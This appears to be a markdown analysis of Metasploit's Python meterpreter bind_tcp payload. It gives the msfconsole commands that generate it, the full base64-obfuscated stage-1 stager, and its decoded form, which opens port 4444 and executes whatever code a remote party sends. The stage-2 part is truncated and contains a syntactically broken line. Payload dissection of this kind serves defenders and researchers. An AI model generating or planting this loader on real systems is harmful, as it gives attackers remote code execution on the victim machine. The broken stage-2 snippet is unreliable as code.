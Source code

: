 # Metasploit Python meterpreter_bind_tcp

## Stage 1 (Stager/Loader)

### Generate
```
msf5> use payload/python/meterpreter/bind_tcp
msf5 payload(python/meterpreter/bind_tcp) > generate -f raw -o stage1.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKYj1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpiLmJpbmQoKCcwLjAuMC4wJyw0NDQ0KSkKYi5saXN0ZW4oMSkKcyxhPWIuYWNjZXB0KCkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyhkLHsncyc6c30pCg==')))
```

Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

#### Base64 Decoded Content
```python
import socket,struct
b=socket.socket(2,socket.SOCK_STREAM)   # 2 = socket.AF_INET
b.bind(('0.0.0.0',4444))
b.listen(1)                             # 1 = backlog, maximum number of queued connections
s,a=b.accept()
l=struct.unpack('>I',s.recv(4))[0]      # Read the length of the payload into a 4 byte unsigned integer in native byte order
d=s.recv(l)                             # receive data, bufsize=l
while len(d)<l:
	d+=s.recv(l-len(d))
exec(d,{'s':s})                         # provide the socket file descriptor as global var 's' to payload in d
```

## Stage 2 (Meterpreter shell)

### Generate
```
msf5> use payload/python/meterpreter_bind_tcp
msf5 payload(python/meterpreter_bind_tcp) > generate -f raw -o stage2.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('IyEvdXN...')))
```

### Base64 Decoded Content
```python
f = open('python_stage2.py')
code = f.read()
exec(code.replace('exec, 'print'))
#!/usr/bin/python
import binascii
import code
import os
import platform
import random
import re
...
```

Stored in file `stage2_decoded.py`
